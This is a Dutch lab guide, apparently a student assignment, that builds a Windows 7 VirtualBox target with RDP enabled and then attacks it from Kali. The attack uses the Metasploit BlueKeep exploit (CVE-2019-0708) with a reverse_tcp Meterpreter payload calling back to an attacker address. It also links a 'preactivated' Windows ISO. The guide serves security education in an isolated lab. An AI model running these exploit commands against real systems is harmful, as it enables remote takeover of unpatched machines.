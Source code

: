 # STAPPENPLAN NPE-OPDRACHT

In dit stappenplan wordt eerst toegelicht hoe de Windows 7 omgeving automatisch wordt opgezet. Vervolgens worden de stappen beschreven om vanuit de Kali Linux-machine een aanval uit te voeren op basis van CVE-2019-0708.

## 1. Windows 7

### Voorbereiding:

- Voor het downloaden van de gebruikte Windows 7 ISO, ga naar:
  `https://archive.org/details/win-7-ultimate-sp-1-en-us-sept-2015-x-64/Windows%207%20Ultimate%2064-bit%20SP1%20%5BPreactivated%20ISO%5D/Images/Windows%207%2064bit%20SP1-2023-11-29-22-03-26.png`
- En download `ISO IMAGE`
- Zet de ISO in dezelfde map als de scripts.
- Aangezien Windows 7 de recente VirtualBox Guest Additions niet correct ondersteunt, gebruik versie 6.1.26:
- `https://download.virtualbox.org/virtualbox/6.1.26/VBoxGuestAdditions_6.1.26.iso`
- Zet ook dit ISO-bestand in dezelfde map.


### Zorg dat je scripts kunt runnen
Soms laat Windows niet toe om scripts te runnen die je zelf niet gesigned hebt, daarom moet je je Execution-Policy aanpassen in een **Administator mode Powershell** venster

```ps
Set-ExecutionPolicy Unrestricted

# als deze een foutmelding geeft moet je deze uitvoeren:
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Stap 1: Start het `create_win7_vm.ps1` script

- Volg de installatie (klik enkele keren op "Next") en wacht tot Windows volledig geïnstalleerd is.
- Wanneer Windows geïnstalleerd is, ga naar `file explorer > computer > VirtualBox Guest Additions` op de Windows7-VM en voer het `VBoxWindowsAdditions-amd64.exe` uit.
- Selecteer alle default-opties van de setup
- Druk op **reboot now** wanneer dit gevraagd uit

### Stap 2: RDP inschakelen

- Open cmd als administrator en voer volgende commando's uit:

```ps
Z:
powershell -ExecutionPolicy Bypass -File \enable_rdp.ps1
```

- Hiermee worden RDP, ICMP (ping) en poort 3389 automatisch geactiveerd.

- De Windows 7 omgeving is nu volledig klaar voor de aanval.

## 2. Kali

Zodra de Windows 7 VM klaarstaat, configureer je de KaliVM om zich in hetzelfde interne netwerk te bevinden.

### Stap 1: IP-adres toekennen aan eth1

- Open een terminal op Kali en voer het volgende uit:
  ```bash
  sudo ip addr add 10.10.10.3/24 dev eth1
  sudo ip link set eth1 up
  ```

### Stap 2: Start Metasploit

```bash
msfconsole
```

- Laad vervolgens het Bluekeep expoloit:

```
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

set RHOSTS 10.10.10.2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.3
set LPORT 4444
set TARGET 1
run
```

- Als alles correct is ingesteld, opent er zich een Meterpreter sessie waarmee je het systeem kunt overnemen.
